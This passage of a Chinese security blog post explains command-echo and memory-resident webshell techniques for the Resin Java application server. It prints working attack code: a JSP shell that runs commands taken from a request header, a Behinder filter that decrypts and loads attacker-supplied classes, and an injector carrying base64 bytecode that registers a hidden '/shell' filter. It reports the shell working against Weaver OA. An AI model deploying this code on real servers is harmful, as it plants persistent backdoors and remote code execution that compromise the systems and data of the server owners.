发现获取到的 request 对象为 HttpRequest 类型  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161740-87f72f60-c1a3-1.png)

我们可以调用`getResponseFacade()`方法获取 response 对象

> 回显思路：
> 
> -   通过调用 TcpSocketLink.getCurrentRequest() 获取 ProtocolConnection 对象（实际 HttpRequest）
> -   通过调用其父类 (AbstractHttpRequest) 的 getResponseFacade 方法获取 response 对象
> -   通过反射调用 reponse 对象的 getWriter 方法获取 PrintWriter 对象
> -   通过 PrintWriter 对象的 write 方法写入回显内容

回显代码如下：

```plain
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.Writer" %>
<%@ page import="java.util.Scanner" %>

<%
    try{
        Class tcpSocketLinkClazz = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.network.listen.TcpSocketLink");
        Method getCurrentRequestM = tcpSocketLinkClazz.getMethod("getCurrentRequest");
        Object currentRequest = getCurrentRequestM.invoke(null);
        Field f = currentRequest.getClass().getSuperclass().getDeclaredField("_responseFacade");
        f.setAccessible(true);
        Object currentResponse = f.get(currentRequest);
        Method getWriterM = currentResponse.getClass().getMethod("getWriter");
        Writer writer = (Writer) getWriterM.invoke(currentResponse);
        Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
        String cmd = (String) getHeaderM.invoke(currentRequest, "cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A");
        writer.write(scanner.hasNext() ? scanner.next() : "");
    } catch (Exception e) {
    }
%>
```

### Resin 4.x 内存马

我们获取 HttpServletRequestImpl 之后，可以通过 getWebApp() 方法获取 WebApp  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161753-8feba994-c1a3-1.png)

```plain
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161802-951addfe-c1a3-1.png)

可以看到 WebApp 属性包含了`_filterMapper` ，`_filterMap`以 List 的形式存储 FilterMapping 对象，FilterMapping 存储着 URL 和 filter 的对应关系

> 注入思路
> 
> -   获取当前环境的 WebApp(上下文)
> -   构造 filterMapping，添加相关配置
> -   调用成员方法 addFilterMapping 添加该 filterMapping 即可

先写一个冰蝎的 filter：

```plain
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.lang.reflect.Method;
import java.util.HashMap;

public class RebeyondFilter extends HttpServlet implements Filter {
    public void init(FilterConfig config){
    }

    public void destroy() {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain){
        try {
            HttpServletResponse response = (HttpServletResponse)servletResponse;
            HttpServletRequest request = (HttpServletRequest) servletRequest;
            HttpSession session = request.getSession();
            HashMap pageContext = new HashMap();
            pageContext.put("request",request);
            pageContext.put("response",response);
            pageContext.put("session",session);
            String k = "e45e329feb5d925b";
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);

            filterChain.doFilter(request,response);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

将 class 字节码编码为 base64 格式，然后注入我们的内存马

```plain
import com.caucho.server.dispatch.FilterMapping;
import com.caucho.server.webapp.WebApp;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.Serializable;
import java.lang.reflect.Method;

public class Resin_filter extends AbstractTranslet implements Serializable {
    static {
        try {
            Class servletInvocation = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation");
            Object httpRequetst = servletInvocation.getMethod("getContextRequest").invoke(null);
            WebApp webApp = (WebApp) httpRequetst.getClass().getMethod("getWebApp").invoke(httpRequetst);
            byte[] evilBytes = java.util.Base64.getDecoder().decode("yv66vgAAADQAugoALQBbBwBcBwBdCwADAF4HAF8KAAUAWwgAPwoABQBgCAA9CABBCABhCABiCwBjAGQIAGUKAGYAZwcAaAoAaQBqCgAQAGsKAGYAbAgAbQoAFwBuCABvBwBwBwBMCQBxAHIKABcAcwoAdAB1BwB2CgAcAFsLAAMAdwoAeAB5CgAcAHoKAGYAewoAJAB8CgAXAH0HAH4KAHEAfwoAdACACgAXAIEKACQAggsAgwCEBwCFCgAqAIYHAIcHAIgHAIkBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAGkxjb20vcmVzaW4vUmViZXlvbmRGaWx0ZXI7AQAEaW5pdAEAHyhMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7KVYBAAZjb25maWcBABxMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7AQAHZGVzdHJveQEACGRvRmlsdGVyAQBbKExqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZTtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjspVgEACHJlc3BvbnNlAQAoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEAB3JlcXVlc3QBACdMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDsBAAdzZXNzaW9uAQAgTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2Vzc2lvbjsBAAtwYWdlQ29udGV4dAEAE0xqYXZhL3V0aWwvSGFzaE1hcDsBAAFrAQASTGphdmEvbGFuZy9TdHJpbmc7AQABYwEAFUxqYXZheC9jcnlwdG8vQ2lwaGVyOwEABm1ldGhvZAEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAOZXZpbGNsYXNzX2J5dGUBAAJbQgEACWV2aWxjbGFzcwEAEUxqYXZhL2xhbmcvQ2xhc3M7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADnNlcnZsZXRSZXF1ZXN0AQAeTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7AQAPc2VydmxldFJlc3BvbnNlAQAfTGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOwEAC2ZpbHRlckNoYWluAQAbTGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47AQANU3RhY2tNYXBUYWJsZQcAhQEAClNvdXJjZUZpbGUBABNSZWJleW9uZEZpbHRlci5qYXZhDAAvADABACZqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZQEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QMAIoAiwEAEWphdmEvdXRpbC9IYXNoTWFwDACMAI0BABBlNDVlMzI5ZmViNWQ5MjViAQABdQcAjgwAjwCQAQADQUVTBwCRDACSAJMBAB9qYXZheC9jcnlwdG8vc3BlYy9TZWNyZXRLZXlTcGVjBwCUDACVAJYMAC8AlwwANgCYAQAVamF2YS5sYW5nLkNsYXNzTG9hZGVyDACZAJoBAAtkZWZpbmVDbGFzcwEAD2phdmEvbGFuZy9DbGFzcwcAmwwAnABODACdAJ4HAJ8MAKAAoQEAFnN1bi9taXNjL0JBU0U2NERlY29kZXIMAKIAowcApAwApQCmDACnAKgMAKkAqgwAqwCsDACtAK4BABBqYXZhL2xhbmcvT2JqZWN0DACvALAMALEAsgwAswC0DAC1ALYHALcMADsAuAEAE2phdmEvbGFuZy9FeGNlcHRpb24MALkAMAEAGGNvbS9yZXNpbi9SZWJleW9uZEZpbHRlcgEAHmphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldAEAFGphdmF4L3NlcnZsZXQvRmlsdGVyAQAKZ2V0U2Vzc2lvbgEAIigpTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2Vzc2lvbjsBAANwdXQBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAHmphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2Vzc2lvbgEACHB1dFZhbHVlAQAnKExqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvT2JqZWN0OylWAQATamF2YXgvY3J5cHRvL0NpcGhlcgEAC2dldEluc3RhbmNlAQApKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YXgvY3J5cHRvL0NpcGhlcjsBABBqYXZhL2xhbmcvU3RyaW5nAQAIZ2V0Qnl0ZXMBAAQoKVtCAQAXKFtCTGphdmEvbGFuZy9TdHJpbmc7KVYBABcoSUxqYXZhL3NlY3VyaXR5L0tleTspVgEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQARamF2YS9sYW5nL0ludGVnZXIBAARUWVBFAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQANc2V0QWNjZXNzaWJsZQEABChaKVYBAAlnZXRSZWFkZXIBABooKUxqYXZhL2lvL0J1ZmZlcmVkUmVhZGVyOwEAFmphdmEvaW8vQnVmZmVyZWRSZWFkZXIBAAhyZWFkTGluZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAMZGVjb2RlQnVmZmVyAQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgEAB2RvRmluYWwBAAYoW0IpW0IBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBAA5nZXRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAC25ld0luc3RhbmNlAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAZlcXVhbHMBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoBABlqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluAQBAKExqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZTspVgEAD3ByaW50U3RhY2tUcmFjZQAhACwALQABAC4AAAAEAAEALwAwAAEAMQAAAC8AAQABAAAABSq3AAGxAAAAAgAyAAAABgABAAAADQAzAAAADAABAAAABQA0ADUAAAABADYANwABADEAAAA1AAAAAgAAAAGxAAAAAgAyAAAABgABAAAADwAzAAAAFgACAAAAAQA0ADUAAAAAAAEAOAA5AAEAAQA6ADAAAQAxAAAAKwAAAAEAAAABsQAAAAIAMgAAAAYAAQAAABIAMwAAAAwAAQAAAAEANAA1AAAAAQA7ADwAAQAxAAACBQAGAA0AAADyLMAAAjoEK8AAAzoFGQW5AAQBADoGuwAFWbcABjoHGQcSBxkFtgAIVxkHEgkZBLYACFcZBxIKGQa2AAhXEgs6CBkGEgwZCLkADQMAEg64AA86CRkJBbsAEFkZCLYAERIOtwAStgATEhS4ABUSFga9ABdZAxIYU1kEsgAZU1kFsgAZU7YAGjoKGQoEtgAbGQm7ABxZtwAdGQW5AB4BALYAH7YAILYAIToLGQoqtgAitgAjBr0AJFkDGQtTWQQDuAAlU1kFGQu+uAAlU7YAJsAAFzoMGQy2ACcZB7YAKFctGQUZBLkAKQMApwAKOgQZBLYAK7EAAQAAAOcA6gAqAAMAMgAAAFYAFQAAABcABgAYAAwAGQAVABoAHgAbACgAHAAyAB0APAAeAEAAHwBLACAAUgAhAGYAIgCHACMAjQAkAKgAJQDSACYA3QAoAOcAKwDqACkA7AAqAPEALAAzAAAAjgAOAAYA4QA9AD4ABAAMANsAPwBAAAUAFQDSAEEAQgAGAB4AyQBDAEQABwBAAKcARQBGAAgAUgCVAEcASAAJAIcAYABJAEoACgCoAD8ASwBMAAsA0gAVAE0ATgAMAOwABQBPAFAABAAAAPIANAA1AAAAAADyAFEAUgABAAAA8gBTAFQAAgAAAPIAVQBWAAMAVwAAAAkAAvcA6gcAWAYAAQBZAAAAAgBa");
            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class evilFilter = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(),  evilBytes, 0, evilBytes.length);
            FilterMapping filterMapping = new FilterMapping();
            filterMapping.setFilterClass(evilFilter.getName());
            filterMapping.setFilterName(evilFilter.getName());
            FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
            urlPattern.addText("/shell");
            urlPattern.init();
            webApp.addFilterMapping(filterMapping);
        }catch (Exception e){}
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```

测试一下泛微 oa，可以看到成功连接冰蝎  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161815-9d1140e8-c1a3-1.png)

参考：  
[https://github.com/pen4uin/awesome-java-security/tree/main/middleware/resin/note](https://github.com/pen4uin/awesome-java-security/tree/main/middleware/resin/note)  
[Resin 内存马分析](https://xz.aliyun.com/t/12147)  
[Resin 回显及内存马](https://xz.aliyun.com/t/9639)  
[Resin 内存马逆袭之路](https://xz.aliyun.com/t/11758)
